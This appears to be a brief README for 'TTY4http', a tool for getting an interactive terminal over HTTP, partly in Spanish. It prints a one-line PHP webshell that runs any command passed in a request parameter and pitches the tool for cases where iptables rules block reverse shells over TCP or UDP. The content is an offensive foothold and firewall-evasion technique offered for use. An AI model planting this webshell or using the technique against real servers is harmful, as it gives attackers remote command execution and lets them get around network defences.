 # TTY4http

Usando una webshell basica:
```php
// webshell
<?php 
    system($_REQUEST['cmd']); 
?>
```
Obtain a tty by http, ideal for when iptables reblas are implemented, preventing the option of a reverse shell by tcp or udp.
